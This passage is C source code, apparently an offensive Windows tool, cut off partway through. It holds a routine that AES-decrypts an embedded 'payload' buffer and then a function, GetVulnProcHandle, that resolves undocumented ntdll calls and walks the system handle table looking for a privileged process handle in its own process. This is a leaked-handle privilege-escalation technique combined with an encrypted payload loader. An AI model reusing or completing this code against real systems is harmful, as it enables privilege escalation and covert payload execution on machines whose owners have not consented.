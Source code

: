 ```c
}
if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
return -1;
}
if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
return -1;
}

if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, payload, &payload_len)){
return -1;
}

CryptReleaseContext(hProv, 0);
CryptDestroyHash(hHash);
CryptDestroyKey(hKey);

return 0;
}


HANDLE GetVulnProcHandle(void) {

ULONG handleInfoSize = 0x10000;
NTSTATUS status;
PSYSTEM_HANDLE_INFORMATION phHandleInfo = (PSYSTEM_HANDLE_INFORMATION) malloc(handleInfoSize);
HANDLE hProc = NULL;
POBJECT_TYPE_INFORMATION objectTypeInfo;
PVOID objectNameInfo;
UNICODE_STRING objectName;
ULONG returnLength;
HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
DWORD dwOwnPID = GetCurrentProcessId();

pNtQuerySystemInformation = GetProcAddress(hNtdll, "NtQuerySystemInformation");
pNtDuplicateObject = GetProcAddress(hNtdll, "NtDuplicateObject");
pNtQueryObject = GetProcAddress(hNtdll, "NtQueryObject");
pRtlEqualUnicodeString = GetProcAddress(hNtdll, "RtlEqualUnicodeString");
pRtlInitUnicodeString = GetProcAddress(hNtdll, "RtlInitUnicodeString");

printf("[+] Grabbing handles...");

while ((status = pNtQuerySystemInformation( SystemHandleInformation, phHandleInfo, handleInfoSize,
NULL )) == STATUS_INFO_LENGTH_MISMATCH)
phHandleInfo = (PSYSTEM_HANDLE_INFORMATION) realloc(phHandleInfo, handleInfoSize *= 2);

if (status != STATUS_SUCCESS)
{
printf("[!] NtQuerySystemInformation failed!\n");
return 0;
}

printf("done.\n[+] Fetched %d handles.\n", phHandleInfo->NumberOfHandles);

// iterate handles until we find the privileged process handle
for (int i = 0; i < phHandleInfo->NumberOfHandles; ++i)
{
SYSTEM_HANDLE_TABLE_ENTRY_INFO handle = phHandleInfo->Handles[i];

// Check if this handle belongs to our own process
if (handle.UniqueProcessId != dwOwnPID)
continue;

objectTypeInfo = (POBJECT_TYPE_INFORMATION) malloc(0x1000);
```